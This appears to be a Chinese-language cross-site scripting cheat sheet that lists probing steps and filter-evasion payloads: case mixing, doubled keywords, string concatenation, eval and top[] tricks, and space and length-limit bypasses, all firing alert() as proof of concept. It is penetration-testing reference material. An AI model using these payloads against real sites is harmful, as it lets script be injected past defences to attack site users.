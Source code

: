 1. 使用无害的 payload,类似`<b>,<i>,<u>`观察响应,判断应用程序是否被 HTML 编码,是否标签被过滤,是否过滤 `<>` 等等;
2. 如果过滤闭合标签,尝试无闭合标签的 payload `<b,<i,<marquee` 观察响应;

## 长度限制

**绕过长度限制**
```js
"onclick=alert(1)//
"><!--
--><script>alert(xss);<script>
```

## 内容检测

**换行**
```js
<img src=1
onerror
=alert(1)
```

**过滤空格,用 / 代替空格**
```js
<img/src="x"/onerror=alert("xss");>
```

**过滤关键字,大小写绕过**
```js
<ImG sRc=x onerRor=alert("xss");>
<scRiPt>alert(1);</scrIPt>
```

**拼接**
```js
<details open ontoggle=top['al'%2B'ert'](1) >
```

**双写关键字**

有些 waf 可能会只替换一次且是替换为空,这种情况下我们可以考虑双写关键字绕过
```js
<imimgg srsrcc=x onerror=alert("xss");>
```

**替换绕过**

过滤 alert 用 prompt,confirm,top['alert'](1) 代替绕过
过滤 () 用 ``代替绕过
过滤空格 用 %0a(换行符),%0d(回车符),/**/ 代替绕过
小写转大写情况下 字符 ſ 大写后为 S(ſ 不等于 s)

**利用 eval**
```js
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

**利用 top**
```js
<script>top["al"+"ert"](`xss`);</script>
```
